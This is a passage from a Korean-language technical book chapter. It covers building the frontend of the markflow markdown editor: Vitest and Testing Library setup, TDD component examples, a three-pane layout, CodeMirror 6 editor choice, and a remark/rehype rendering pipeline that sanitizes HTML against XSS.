

# ⑤ 프론트엔드 고도화

> 🔧 **[교정 안내]** — 본 챕터는 두 종의 초안(`level5-chapter5.md` · `level5-chapter5-2.md`)을 통합·재검증한 최종본이다. 모든 markflow 관련 사실 관계는 실제 오픈소스 코드베이스(`apps/web`, `packages/editor`, `packages/db`)와 직접 대조했고, 가상 디렉터리/컴포넌트/의존성 예시는 *권장 패턴* 또는 *선택지* 표시로 명시했다. 강의 흐름상 등장하지만 markflow가 채택하지 않은 패턴 옆에는 `🔧 [코드베이스 교정]` 콜아웃을 부착했다.

## 🟠 LEVEL 6 — 프론트엔드 고도화

> **메인 프로젝트(이어서)**: markflow — 마크다운 에디터 기반 지식 관리 시스템 (프론트엔드 구축)
> 오픈소스 리포지터리: https://github.com/claude-code-expert/markflow
> 기술 스택(프론트엔드 영역, 실측):
> - 런타임: Next.js 16.2.1 (App Router) · React 19.2.4 · TypeScript 5+ (strict)
> - 스타일: Tailwind CSS 4 (`@tailwindcss/postcss`)
> - 상태: Zustand 5.0 (클라이언트) · TanStack Query 5.72 (서버)
> - 에디터: CodeMirror 6 · unified(remark/rehype 11) · KaTeX · highlight.js
> - 테스트: Vitest 3 (apps/web) / Vitest 4.1 (packages/editor) · Testing Library 16 · Playwright 1
> 모노레포: pnpm workspaces — 실제 패키지: `@markflow/web` (apps/web), `@markflow/editor` (packages/editor), `@markflow/db` (packages/db). 그 외 `apps/demo`(에디터 데모), `apps/worker`(Cloudflare R2 이미지 업로드 Worker), `apps/api`(이전에 Fastify 코드가 존재했으나 현재 `.bak` 파일만 남고 실코드는 `apps/web/app/api/v1/**`로 통합됨).

Level 4에서 우리는 markflow의 백엔드(**Next.js App Router Route Handlers** — `apps/web/app/api/v1/**`, Drizzle 스키마, JWT 인증/RBAC)를 SDD/TDD로 구현했다. 이 장에서는 그 위에 올라갈 **에디터·미리보기·사이드바·검색 모달·DAG 구조 모달** 등의 UI를 만든다. 핵심 원칙은 동일하다 — 명세(`COMPONENT_SPEC.md`)를 기준으로 테스트를 먼저 작성하고, 가장 작은 말단 컴포넌트(Leaf Component)부터 조립해나가는 Bottom-up 방식이다. 클로드 코드는 이 과정에서 효율적인 코드 생성과 스타일링을 도와주는 파트너 역할을 한다.

> 🔧 **[코드베이스 교정]** — 초기 기획(`CLAUDE.md`)에는 별도 Fastify 5.x API 서버 도입 계획이 있으나, 현재 코드베이스의 실제 백엔드는 Next.js App Router의 Route Handlers(`apps/web/app/api/v1/**`)로 구성되어 있다. `apps/api/`에는 `.bak` 파일만 남아 있어 사실상 archived 상태다. 본 챕터의 모든 API 호출은 `apps/web/app/api/v1/**` 경로를 기준으로 한다.

전체 구현은 5개 Phase로 나뉜다. 각 Phase가 끝날 때마다 `pnpm test`로 테스트를 실행하고, 프리뷰 페이지에서 시각적 구성을 확인한다. 잘못 구현된 화면이나 기능은 바로 수정하면서 넘어가야 후반 작업의 지체가 최소화된다.

[표 5-1] 프런트엔드 구현 단계

| Phase | 범위 | 절 |
|-------|------|----|
| Phase 1 | 기본 UI 컴포넌트 (Button · Badge · Modal · ConfirmDialog · Tooltip) | 5.1 |
| Phase 2 | 레이아웃 — 사이드바 + 에디터 + 미리보기 3분할 | 5.1, 5.3 |
| Phase 3 | 마크다운 에디터·미리보기 핵심 기능 | 5.2 |
| Phase 4 | API 연동·상태 관리·자동 저장 | 5.3, 5.4 |
| Phase 5 | 디자인 시스템·접근성·성능 최적화·검증 | 5.4 ~ 5.7 |

> **참고**: 본문에 등장하는 NPM 패키지 버전·사이트 정책·외부 도구 가격 정책은 문서 작성 시점(2026년 5월)을 기준으로 한 것이며, 변동 가능성이 있어 본인이 직접 공식 문서를 한 번 더 확인하기를 권한다. 테스트 수치(예: "약 30개 통과")는 *예시*이며 실제 markflow의 현재 테스트는 `apps/web/components/__tests__/password-change-modal.test.tsx` 단일 파일에서 시작해 점진 확장 중이다.

---

## 5.1 컴포넌트 단위 구축

LEVEL 4에서 이미 Next.js 16 모노레포(`apps/web`, `packages/editor`, `packages/db`)를 생성했으므로, 별도의 React 프로젝트 생성은 필요 없다. 마크다운 에디터의 핵심 라이브러리(CodeMirror 6, remark/rehype)는 `@markflow/editor` 패키지로 이미 분리해두었으므로, `apps/web`에서는 이를 의존성으로 사용한다.

**실제 markflow 디렉터리 구조 (실측)**

```
markflow/
├── packages/
│   ├── editor/                 # @markflow/editor — 독립 에디터 (CodeMirror 6 + unified)
│   │   └── src/
│   │       ├── MarkdownEditor.tsx
│   │       ├── editor/         # EditorPane (CodeMirror 래퍼)
│   │       ├── preview/        # PreviewPane (remark/rehype 렌더)
│   │       ├── toolbar/        # Toolbar, SettingsModal
│   │       ├── styles/         # .mf- 네임스페이스 CSS
│   │       ├── utils/          # parseMarkdown, cloudflareUploader
│   │       ├── types/
│   │       └── index.ts        # Public API barrel
│   └── db/                     # @markflow/db — Drizzle ORM 스키마
├── apps/
│   ├── web/                    # @markflow/web — Next.js 16 + Route Handlers
│   │   ├── app/
│   │   │   ├── (app)/          # 인증 후 워크스페이스 화면
│   │   │   ├── (auth)/         # 로그인/회원가입
│   │   │   ├── (public)/       # 랜딩, 마케팅
│   │   │   ├── api/v1/**       # Route Handlers (백엔드)
│   │   │   ├── invite/         # 초대 수락
│   │   │   ├── present/        # 발표 모드
│   │   │   ├── globals.css     # Tailwind v4 + 디자인 토큰
│   │   │   ├── layout.tsx
│   │   │   └── providers.tsx
│   │   ├── components/         # ★ flat kebab-case (sub-folder는 landing/, settings/, states/)
│   │   ├── hooks/
│   │   ├── lib/                # api.ts, image-upload.ts, types.ts ...
│   │   ├── stores/             # auth-store, editor-store, sidebar-store, ...
│   │   ├── tests/e2e/          # Playwright 시나리오
│   │   ├── playwright.config.ts
│   │   └── vitest.config.ts
│   ├── demo/                   # 에디터 데모 앱
│   └── worker/                 # Cloudflare R2 업로드 Worker
└── docs/                       # 설계 문서, 프로토타입
```

> 🔧 **[코드베이스 교정]** — 초안에 자주 등장한 `apps/web/src/client/components/...`, `src/shared/`, `src/server/` 같은 3단 계층 구조는 markflow에 **존재하지 않는다**. 실제 구조는 위와 같이 평탄한 `apps/web/components/` + `apps/web/lib/` + `apps/web/stores/` + `apps/web/hooks/`이며, 컴포넌트 파일명은 **kebab-case**(`sidebar.tsx`, `category-tree.tsx`, `confirm-modal.tsx`, `dag-structure-modal.tsx` 등)다. 본 챕터의 코드 예시 중 `apps/web/components/...` 또는 `packages/editor/src/...` 경로는 실제 구조이며, 그 외(예: `apps/web/components/ui/Button.tsx`)는 *권장 위치*임을 명시한다.

---

### 5.1.1 컴포넌트 테스트 환경 구성 (Vitest + Testing Library)

markflow는 Vite 기반 빌드 환경이 아니지만, Next.js 16과 함께 Vitest를 별도의 컴포넌트 테스트 러너로 사용한다. 2026년 현재 새 React 19 프로젝트에서 Vitest는 사실상 표준 선택지로 자리잡았는데, **Vite 네이티브 통합·ESM 지원·Jest 호환 API·병렬 실행** 덕분에 동일 규모의 Jest 테스트보다 훨씬 빠르게 실행된다. (출처: [PkgPulse, "Vitest + Jest + Playwright"](https://www.pkgpulse.com/blog/vitest-jest-playwright-complete-testing-stack-2026), 2026.03.08)

> 참고: Jest를 선호한다면 동일한 설정을 `jest.config.ts`로 작성해도 무방하다. markflow는 모노레포 + Next.js 16의 ESM 우선 정책 때문에 Vitest를 채택했다.

**설치 (apps/web 워크스페이스 — 실측 의존성)**

```bash
# apps/web 워크스페이스에서 실행
pnpm add -D vitest @vitest/ui jsdom \
  @testing-library/react @testing-library/jest-dom @testing-library/user-event \
  @vitejs/plugin-react
```

> 실측: `apps/web/package.json` devDependencies — `vitest@^3`, `@testing-library/react@^16.3.2`, `@testing-library/jest-dom@^6.9.1`, `@testing-library/user-event@^14.6.1`, `jsdom@^29.0.2`, `@vitejs/plugin-react@^4.7.0`. `@vitest/ui`는 현재 미설치 — UI 모드가 필요하면 별도 추가.

**vitest.config.ts (현재 markflow 실측)**

```typescript
// apps/web/vitest.config.ts (실제)
import { defineConfig } from 'vitest/config';
import react from '@vitejs/plugin-react';

export default defineConfig({
  plugins: [react()],
  test: {
    environment: 'jsdom',
    globals: true,
    setupFiles: [],
    include: ['**/__tests__/**/*.test.{ts,tsx}', '**/*.test.{ts,tsx}'],
  },
});
```

**vitest.setup.ts (권장 추가)**

```typescript
// apps/web/vitest.setup.ts (권장)
import '@testing-library/jest-dom/vitest';
import { cleanup } from '@testing-library/react';
import { afterEach, vi } from 'vitest';

afterEach(() => {
  cleanup();
});

// CodeMirror 6 의존 — jsdom에 없는 ResizeObserver
global.ResizeObserver = vi.fn().mockImplementation(() => ({
  observe: vi.fn(),
  unobserve: vi.fn(),
  disconnect: vi.fn(),
}));

// 다크 모드 토글이 사용하는 matchMedia
Object.defineProperty(window, 'matchMedia', {
  writable: true,
  value: vi.fn().mockImplementation((query: string) => ({
    matches: false,
    media: query,
    addEventListener: vi.fn(),
    removeEventListener: vi.fn(),
  })),
});
```

> 🔧 **[코드베이스 교정]** — 현재 `apps/web/vitest.config.ts`는 `setupFiles: []`로 비어 있고 위 setup 파일은 도입되어 있지 않다. 컴포넌트 테스트를 본격화할 때 위 파일을 추가하고 `setupFiles: ['./vitest.setup.ts']`로 등록하면 된다. CodeMirror 컴포넌트를 테스트할 때 `ResizeObserver is not defined` 같은 jsdom 한계 오류가 자주 나오므로 이 setup이 사실상 필수다.
> 실측 vitest 버전: `apps/web` → `^3`, `packages/editor` → `^4.1.4` (서로 다름).

**클로드 코드에 위임**

```text
@apps/web/vitest.config.ts 와 @apps/web/vitest.setup.ts 를 기준으로 컴포넌트 테스트
환경을 점검해줘.

체크리스트:
1. jsdom 환경 활성화 여부
2. @testing-library/jest-dom 매쳐 등록 여부
3. afterEach cleanup 등록 여부
4. ResizeObserver/matchMedia 모킹 여부 (CodeMirror 6 + 다크 모드)
5. tsconfig.json 의 paths 와 vitest alias 동기화 여부
6. CI 에서 사용할 `pnpm test` 스크립트가 package.json 에 있는지 확인
```

> **참고(현재 시점)**: Vitest 3는 Vite 6과 함께 일반 출시(GA)되었고, Testing Library 16.x는 React 19와 호환된다. 단, 패키지 의존성 매트릭스는 변동이 잦으니 새로 설치할 때는 `pnpm view vitest version`, `pnpm view @testing-library/react version`으로 확인 후 lock 파일을 갱신하자. (출처: [Vitest 3 + Vite 6 + React 19 업그레이드 후기](https://www.thecandidstartup.org/2025/03/31/vitest-3-vite-6-react-19.html), 2025.03.31)

---

### 5.1.2 기본 컴포넌트 TDD로 구현

Phase 1에서는 다른 컴포넌트에 의존하지 않는 순수 UI 컴포넌트 4~5개를 구현한다 — `Button`, `Badge`, `Modal`, `ConfirmDialog`, `Tooltip`. 이 중 `Button`은 직접 TDD 사이클(Red → Green → Refactor)을 한 번 돌려보고, 나머지는 같은 패턴으로 클로드 코드에 위임한다.

> 🔧 **[코드베이스 교정]** — 실제 markflow는 `components/ui/` 같은 별도 프리미티브 디렉터리를 두지 않고, `apps/web/components/` 바로 아래에 **kebab-case** 파일명으로 컴포넌트를 둔다(예: `sidebar.tsx`, `category-tree.tsx`, `confirm-modal.tsx`, `new-doc-modal.tsx`, `tooltip.tsx`). 또 현재 시점에 별도의 `Button` 컴포넌트 파일은 없으며 Tailwind 클래스로 직접 버튼을 렌더링한다. 아래 코드는 *권장 패턴 예시*이며, 실제 프로젝트에 도입할 경우 파일명을 `apps/web/components/button.tsx`처럼 두거나, `apps/web/components/__tests__/button.test.tsx`로 옮긴다(테스트 디렉터리는 `apps/web/components/__tests__/`가 이미 존재).

**Step 1: Red — 실패하는 테스트 먼저** *(권장 패턴)*

```typescript
// apps/web/components/__tests__/button.test.tsx (권장 위치)
import { describe, it, expect, vi } from 'vitest';
import { render, screen } from '@testing-library/react';
import userEvent from '@testing-library/user-event';
import { Button } from '../button';

describe('Button', () => {
  it('children 을 렌더링한다', () => {
    render(<Button>저장</Button>);
    expect(screen.getByRole('button', { name: '저장' })).toBeInTheDocument();
  });

  it('variant prop 에 맞는 클래스명을 적용한다', () => {
    render(<Button variant="danger">삭제</Button>);
    expect(screen.getByRole('button')).toHaveClass('btn-danger');
  });

  it('클릭 시 onClick 핸들러가 호출된다', async () => {
    const onClick = vi.fn();
    render(<Button onClick={onClick}>확인</Button>);
    await userEvent.click(screen.getByRole('button'));
    expect(onClick).toHaveBeenCalledTimes(1);
  });

  it('loading=true 일 때 disabled 상태가 되고 클릭이 무시된다', async () => {
    const onClick = vi.fn();
    render(<Button loading onClick={onClick}>처리중...</Button>);
    expect(screen.getByRole('button')).toBeDisabled();
    await userEvent.click(screen.getByRole('button'));
    expect(onClick).not.toHaveBeenCalled();
  });
});
```

**Step 2: Green — 클로드 코드에 위임**

```text
@apps/web/components/__tests__/button.test.tsx 의 4개 테스트가 모두 통과하도록
@apps/web/components/button.tsx 를 구현해줘.

조건:
- variant: 'primary' | 'secondary' | 'danger' | 'ghost' (기본값 primary)
- size: 'sm' | 'md' | 'lg' (기본값 md)
- loading prop 시 spinner 표시 + disabled
- @markflow/web 컨벤션: forwardRef + ButtonHTMLAttributes 확장
- Tailwind CSS 4 유틸리티 사용, 임의 hex 금지 (globals.css 토큰만 사용)
- 다른 파일 수정 금지
```

**Step 3: Refactor — 통과 확인 후 정리**

```bash
pnpm --filter @markflow/web test button
pnpm --filter @markflow/web exec tsc --noEmit
```

`Badge`, `Modal`, `ConfirmDialog`, `Tooltip`도 동일한 패턴으로 클로드 코드에 위임한 뒤 일괄 검증한다.

[그림 5-1] Phase 1 컴포넌트 테스트 실행 결과 [스크린샷 영역]

> **체크리스트** — 컴포넌트 테스트에서 검증해야 할 3가지 관점
> 1. **렌더링 검증**: 사용자에게 보여야 할 내용이 실제로 화면에 나타나는가?
> 2. **조건부 렌더링 검증**: 상태(loading, error, empty)에 따라 화면이 올바르게 변하는가?
> 3. **상호작용 검증**: 클릭·입력·키보드 동작에 올바르게 반응하는가?

> **Tip**: 테스트가 통과해도 화면이 의도대로 보이는지는 별개 문제다. 5.1.4의 프리뷰 페이지에서 시각적으로도 확인한다.

---

### 5.1.3 레이아웃 — 사이드바 + 에디터 + 미리보기 3분할

markflow의 핵심 화면 구조는 **3분할 레이아웃**이다. 좌측 사이드바(워크스페이스·카테고리 트리), 중앙 에디터(CodeMirror 6), 우측 미리보기(remark/rehype 렌더링)로 나뉜다. 데스크톱에서는 3분할, 태블릿에서는 사이드바를 슬라이드 오버, 모바일에서는 단일 컬럼 + 탭 전환으로 동작한다.

[그림 5-2] markflow 3분할 레이아웃 와이어프레임

```
┌────────────────────────────────────────────────────────────────┐
│  app-header (상단 검색바 + 우측 사용자 메뉴)                     │
├──────────┬──────────────────────────┬───────────────────────────┤
│ Sidebar  │     EditorPane           │     PreviewPane           │
│          │     (CodeMirror 6)       │     (remark/rehype HTML)  │
│ - 워크   │                          │                           │
│ 스페이스 │     # 마크다운 입력      │     # 렌더링된 결과       │
│ - 카테고 │                          │                           │
│ 리 트리  │                          │                           │
│ - 문서   │                          │                           │
│ 트리     │                          │                           │
└──────────┴──────────────────────────┴───────────────────────────┘
```

> 🔧 **[코드베이스 교정]** — 실제 markflow는 라우트 그룹을 `(app)` / `(auth)` / `(public)` 세 개로 운영한다(`(workspace)` 그룹은 존재하지 않는다). 워크스페이스 화면 트리는 `apps/web/app/(app)/[workspaceSlug]/**`에 위치하며, 사이드바는 `apps/web/components/sidebar.tsx`(약 21KB), 카테고리 트리는 `apps/web/components/category-tree.tsx`(약 11KB)로 분리되어 있다. 별도의 `WorkspaceSelector`/`DocumentList` 컴포넌트는 `sidebar.tsx` 내부에 통합되어 있다.

```
markflow/apps/web/app/(app)/layout.tsx                  ← 실제 라우트 그룹 레이아웃
└── (Client Component shell)
    ├── components/sidebar.tsx (좌)
    │   ├── 워크스페이스 셀렉터 (sidebar.tsx 내부)
    │   ├── components/category-tree.tsx (재귀)
    │   └── 문서 리스트 (sidebar.tsx 내부)
    └── (중·우) MainContent
        ├── @markflow/editor — EditorPane (CodeMirror 6)
        └── @markflow/editor 내부 PreviewPane
```

**3분할 구현(Tailwind v4 + CSS Grid — 권장 골격)**

```tsx
// 권장 위치: apps/web/app/(app)/[workspaceSlug]/layout.tsx
export default function WorkspaceLayout({ children }: { children: React.ReactNode }) {
  return (
    <div className="grid h-dvh grid-rows-[48px_1fr] grid-cols-1 lg:grid-cols-[280px_1fr_1fr]">
      <header className="lg:col-span-3 border-b">{/* AppHeader */}</header>
      <aside className="hidden lg:block row-start-2 border-r overflow-y-auto">
        {/* Sidebar */}
      </aside>
      <main className="row-start-2 lg:col-span-2 overflow-hidden">{children}</main>
    </div>
  );
}
```

3분할의 좌·중·우 비율, 분할자(Splitter) 드래그 동작, 모바일 하단 탭 등 디테일은 명세에 따로 빼두고 `CLAUDE.md`에서 참조하게 하면 좋다.

```markdown
# .claude/rules/workspace-layout.md
---
paths:
  - "apps/web/app/(app)/**/*.tsx"
  - "apps/web/components/sidebar.tsx"
  - "apps/web/components/category-tree.tsx"
---

## markflow 워크스페이스 레이아웃 규칙
- 데스크톱(≥1024px): 사이드바 280px + 에디터 1fr + 미리보기 1fr
- 태블릿(768~1023px): 사이드바 슬라이드 오버, 에디터/미리보기 토글
- 모바일(<768px): 단일 컬럼 + 하단 탭 (Editor / Preview / Outline)
- 분할자는 자체 구현(드래그 핸들) — markflow 의존성에 `react-resizable-panels`는 포함되어 있지 않다
- 사이드바 스크롤은 자체적으로, 메인은 별도 스크롤 컨테이너
- height 단위는 `dvh` 사용 (iOS Safari 주소창 변동 회피)
```

> 🔧 **[코드베이스 교정]** — 위 규칙은 *권장 가이드*이며, 현재 markflow는 `react-resizable-panels`를 사용하지 않는다. 분할 레이아웃은 CSS Grid 정적 비율로 구성되어 있다.

---

### 5.1.4 컨테이너 조립과 페이지 통합

각 Phase에서 만든 컴포넌트가 의도대로 동작하는지 빠르게 확인하려면 **DB 없이 동작하는 프리뷰 페이지**가 필요하다. `app/(app)/[workspaceSlug]/page.tsx`는 서버 컴포넌트로서 실제 DB를 조회하기 때문에, 단계별로 컴포넌트를 검증하기에는 부적합하다.

**프리뷰 페이지 패턴** *(권장)*

```tsx
// apps/web/app/preview/page.tsx (Phase 5에서 삭제 예정)
'use client';
import { Sidebar } from '@/components/sidebar';
import { CategoryTree } from '@/components/category-tree';
import { mockCategories } from '@/lib/mocks';

export default function PreviewPage() {
  return (
    <div className="grid grid-cols-2 gap-8 p-8">
      <section>
        <h2>Phase 1 — 기본 컴포넌트</h2>
        {/* Button, Badge, Modal 미리보기 */}
      </section>
      <section>
        <h2>Phase 2 — 사이드바</h2>
        <CategoryTree categories={mockCategories} onSelect={() => {}} />
      </section>
    </div>
  );
}
```

```bash
pnpm --filter @markflow/web dev
# http://localhost:3002/preview 에서 컴포넌트 갤러리 확인
```

> Tip — 3분할 같은 거시적 레이아웃은 이미지 한 장보다 와이어프레임 그림(또는 Excalidraw로 그린 도식)을 첨부해서 클로드 코드에 전달하면 결과 품질이 크게 올라간다. 4.1.3에서 사용한 와이어프레임을 그대로 재활용해도 된다.

---

## 5.2 마크다운 에디터 핵심 기능

markflow의 핵심 가치는 마크다운 에디터의 품질이다. 이 절에서는 에디터 라이브러리 선택부터 실시간 미리보기, 코드 하이라이팅, XSS 방어까지 다룬다.

### 5.2.1 에디터 라이브러리 비교 (CodeMirror · Monaco · TipTap)

마크다운 에디터를 만들 때 가장 먼저 마주치는 결정은 **소스 편집(Source-mode) vs WYSIWYG**이다. 소스 편집은 마크다운 텍스트를 그대로 입력하고 우측에 미리보기를 띄우는 방식이고, WYSIWYG은 사용자가 보는 결과물 위에서 직접 서식을 적용하는 방식이다.

[표 5-2] 에디터 라이브러리 비교 (2026년 5월 기준)

| 항목 | CodeMirror 6 | Monaco Editor | TipTap |
|------|--------------|---------------|--------|
| 모델 | 텍스트 기반 (Source) | 텍스트 기반 (IDE) | DOM 기반 (WYSIWYG, ProseMirror 위) |
| 번들 사이즈 (코어, 근사) | ~300KB (필요 모듈만 import) | ~5MB (Web Worker 필요) | ~150KB (headless, Plugin마다 추가) |
| 코드 하이라이팅 | Lezer 파서 | VS Code 동급 IntelliSense | 별도 highlight extension |
| WYSIWYG 지원 | 부분(데코레이션) | ❌ | ✅ (메인 활용처) |
| 모바일 지원 | 우수(네이티브 셀렉션) | 제한적 | ProseMirror 의존 |
| 협업(CRDT/Yjs) | yjs 어댑터 | 별도 구현 필요 | 1차 지원(`@tiptap/extension-collaboration`) |
| 적합한 용도 | 마크다운·소스 보기 | VSCode 수준의 IDE | 노션식 블록 에디터 |
| markflow 채택 | ✅ | — | — |

> 출처:
> - CodeMirror vs Monaco bundle size 비교 — https://agenthicks.com/research/codemirror-vs-monaco-editor-comparison (2025.09)
> - Sourcegraph의 Monaco → CodeMirror 마이그레이션 사례 — https://sourcegraph.com/blog/migrating-monaco-codemirror
> - Liveblocks 리치 에디터 비교 — https://liveblocks.io/blog/which-rich-text-editor-framework-should-you-choose-in-2025
> - Velt 비교 글 — https://velt.dev/blog/best-rich-text-editors-react-comparison (2026.01)

CodeMirror 6와 Monaco는 둘 다 **소스 모드 코드 에디터**다. 마크다운에 코드 블록·수식이 자주 등장하는 기술 문서 도구에 적합하다. TipTap은 ProseMirror 기반의 **헤드리스 리치 텍스트 에디터**로, "노션 스타일" 인터페이스를 만들 때 강력하다.

> 인용: 코드 중심 콘텐츠(문서·노트·기술 위키)에서는 CodeMirror가 일반 리치 텍스트 에디터보다 코드 편집 능력이 우수하다. markflow는 코드 블록·KaTeX 수식·다이어그램이 많이 등장하는 개발자용 KMS이므로 CodeMirror 6 + remark/rehype 미리보기 조합이 자연스러운 선택이다.

**markflow의 선택 — CodeMirror 6 (실측 의존성)**

`@markflow/editor` 패키지(packages/editor)의 실제 의존성은 다음과 같다.

- 에디터 코어: `@codemirror/view`, `@codemirror/state`, `@codemirror/commands`, `@codemirror/autocomplete`, `@codemirror/lang-markdown`, `@codemirror/language-data`, `@codemirror/theme-one-dark`
- 마크다운 파서: `unified`, `remark-parse`, `remark-gfm`, `remark-math`, `remark-breaks`
- 렌더링: `remark-rehype`, `rehype-raw`, `rehype-katex`, `rehype-highlight`, `rehype-stringify`, `rehype-sanitize`
- 수식 스타일: `katex`
- 아이콘: `lucide-react`
- 유틸: `deepmerge-ts`

> 🔧 **[코드베이스 교정]** — 강의 자료에서 단일 패키지(`codemirror`) 표기는 편의상 표현이며, 실제 markflow는 위와 같이 `@codemirror/*` **모듈을 직접 import**한다(번들 사이즈 절감). 또 `@uiw/react-codemirror` 같은 React 래퍼도 사용하지 않고 자체 React 래퍼(`packages/editor/src/editor/EditorPane.tsx`)를 두고 있다.

**markflow가 CodeMirror 6를 고른 이유**

1. **소스 편집 + 미리보기 분리 모델**이 마크다운에 가장 자연스럽다. WYSIWYG 모델(TipTap)은 마크다운을 1급으로 취급하지 않아 라운드트립이 어렵다.
2. **번들 크기**가 Monaco의 1/15 수준이다. SaaS로 배포하는 markflow에는 초기 로딩 비용이 중요하다.
3. **모바일 셀렉션 지원**이 우수해 태블릿에서도 쓸 만하다.
4. **모듈러 확장 모델**로 문법 강조, 검색, 단축키 등을 필요한 만큼만 import할 수 있다.

> 클로드 코드에게 라이브러리 선택을 맡길 때 한 가지 주의할 점: AI는 학습 데이터에 더 많이 노출된 라이브러리를 선호하는 경향이 있다(예: Monaco 우선 추천). 의사결정 근거를 비교표 형태로 명시적으로 전달해야 의도한 선택을 정확히 따른다.

[5-1 markflow 에디터 구성 다이어그램 — PlantUML]



---

### 5.2.2 실시간 미리보기 (split view · synced scroll)

실시간 미리보기는 **에디터 입력 → 디바운스 → 파싱 → 미리보기 갱신**의 흐름으로 동작한다. 입력마다 즉시 파싱하면 큰 문서에서 키 입력이 끊기므로, **150~300ms 디바운스**(또는 React 18+의 `useDeferredValue`)를 권장한다. 더 큰 문서에서는 워커 파싱을 검토한다.

**기본 구현(`@markflow/editor`)**

```tsx
// packages/editor/src/MarkdownEditor.tsx (개념)
'use client';
import { useState, useDeferredValue } from 'react';
import { CodeMirror } from './CodeMirror';
import { Preview } from './Preview';

export function MarkdownEditor({ initialValue, onChange }: Props) {
  const [value, setValue] = useState(initialValue);
  const deferred = useDeferredValue(value); // 미리보기 갱신을 비동기 슬라이스에 위임 (React 18+)

  return (
    <div className="grid grid-cols-2 gap-4 h-full">
      <CodeMirror
        value={value}
        onChange={(next) => {
          setValue(next);
          onChange?.(next);
        }}
      />
      <Preview source={deferred} />
    </div>
  );
}
```

**스크롤 동기화(synced scroll)**

```tsx
// 권장 위치: apps/web/components/editor/SyncedScroll.tsx
import { useEffect } from 'react';

export function useSyncedScroll(editorRef, previewRef) {
  useEffect(() => {
    const editor = editorRef.current;
    const preview = previewRef.current;
    if (!editor || !preview) return;

    let isSyncing = false;
    const onEditorScroll = () => {
      if (isSyncing) return;
      isSyncing = true;
      const ratio = editor.scrollTop / (editor.scrollHeight - editor.clientHeight);
      preview.scrollTop = ratio * (preview.scrollHeight - preview.clientHeight);
      requestAnimationFrame(() => (isSyncing = false));
    };
    const onPreviewScroll = () => {
      if (isSyncing) return;
      isSyncing = true;
      const ratio = preview.scrollTop / (preview.scrollHeight - preview.clientHeight);
      editor.scrollTop = ratio * (editor.scrollHeight - editor.clientHeight);
      requestAnimationFrame(() => (isSyncing = false));
    };
    editor.addEventListener('scroll', onEditorScroll);
    preview.addEventListener('scroll', onPreviewScroll);
    return () => {
      editor.removeEventListener('scroll', onEditorScroll);
      preview.removeEventListener('scroll', onPreviewScroll);
    };
  }, [editorRef, previewRef]);
}
```

> **주의**: 비율 기반 동기화는 빠르지만 헤딩 위치가 정확하지 않을 수 있다. 정밀 동기화가 필요하면 마크다운 AST의 line offset을 미리보기 DOM에 `data-source-line` 속성으로 매핑하는 방식을 검토한다.

---

### 5.2.3 마크다운 파싱과 렌더링 (remark · rehype 파이프라인)

unified는 마크다운을 **한 번에 HTML로 바꾸지 않고 트리(AST)로 만들어 단계별로 가공**한다. 같은 입력이라도 어떤 플러그인을 어떤 순서로 끼우느냐에 따라 결과가 달라진다.

- `remark-*` — 마크다운 트리(**mdast**) 변환기
- `rehype-*` — HTML 트리(**hast**) 변환기

이 프로젝트의 파이프라인은 `parse → GFM·breaks·math 확장 → hast 변환(원시 HTML 보존) → highlight·KaTeX·외부링크 처리 → 마지막에 sanitize로 화이트리스트 기반 XSS 검열 → HTML 문자열 출력` 순으로 **총 11단계**다.

**11단계 파이프라인 — `packages/editor/src/utils/parseMarkdown.ts`**

```typescript
import { unified } from 'unified';
import remarkParse from 'remark-parse';
import remarkGfm from 'remark-gfm';
import remarkBreaks from 'remark-breaks';
import remarkMath from 'remark-math';
import remarkRehype from 'remark-rehype';
import rehypeRaw from 'rehype-raw';
import rehypeHighlight from 'rehype-highlight';
import rehypeKatex from 'rehype-katex';
import rehypeExternalLinks from 'rehype-external-links';
import rehypeSanitize, { defaultSchema } from 'rehype-sanitize';
import rehypeStringify from 'rehype-stringify';

export const markdownProcessor = unified()
  // ── mdast 단계 (1~4)
  .use(remarkParse)            // 1. MD → mdast
  .use(remarkGfm)              // 2. 표 · 체크박스 · 자동 링크
  .use(remarkBreaks)           // 3. single newline → <br>
  .use(remarkMath)             // 4. $...$ · $$...$$ 추출

  // ── 트리 변환 (5~6) — 원시 HTML 보존
  .use(remarkRehype, { allowDangerousHtml: true })  // 5. mdast → hast
  .use(rehypeRaw)                                    // 6. 원시 HTML 재파싱 → hast 노드화

  // ── hast 단계 (7~9)
  .use(rehypeHighlight)        // 7. 코드 토큰 신택스 하이라이팅
  .use(rehypeKatex)            // 8. KaTeX 수식 렌더링
  .use(rehypeExternalLinks, {  // 9. 외부 링크 target=_blank rel=noopener
    target: '_blank',
    rel: ['noopener', 'noreferrer'],
  })

  // ── 검열 + 직렬화 (10~11) — sanitize 반드시 마지막
  .use(rehypeSanitize, {       // 10. 화이트리스트 기반 XSS 검열
    ...defaultSchema,
    attributes: {
      ...defaultSchema.attributes,
      code: [...(defaultSchema.attributes?.code ?? []), ['className', /^language-./]],
      span: [['className']],
      div: [['className', /^math/]],
    },
  })
  .use(rehypeStringify);       // 11. hast → HTML 문자열

export function parseMarkdown(source: string): string {
  // 실시간 프리뷰용 — 동기 processSync 사용
  return String(markdownProcessor.processSync(source));
}
```

> **핵심 규칙** (루트 `CLAUDE.md`에도 명시)
>
> - **AST 기반 단계별 변환**이라는 점이 핵심 — 한 단계에서 누락된 정보는 다음 단계에서 복구할 수 없다.
> - `remarkRehype({ allowDangerousHtml: true })` + `rehypeRaw` 조합은 `<details>` / `<sup>` 같은 인라인 HTML을 보존하기 위해 필요하다. allowDangerousHtml이 true여도 마지막 sanitize 단계에서 화이트리스트로 정화된다.
> - `rehype-sanitize`는 반드시 **stringify 직전**(마지막에서 두 번째)에 위치해야 한다. 이후에 다른 플러그인이 끼어들면 검열되지 않은 HTML이 출력될 수 있다.
> - 실시간 프리뷰용 `parseMarkdown()`은 **동기(processSync)**다.
> - 파이프라인 순서 요약: `parse → gfm·breaks·math → rehype(+raw) → highlight·katex·externalLinks → sanitize → stringify` (총 11단계).

---

### 5.2.4 코드 블록 신택스 하이라이팅

`rehype-highlight`는 highlight.js 기반으로 200개 이상의 언어를 자동 감지한다. 번들 사이즈가 부담되면 사용 언어만 선택적으로 등록하는 방식을 쓴다.

```typescript
import rehypeHighlight from 'rehype-highlight';
import javascript from 'highlight.js/lib/languages/javascript';
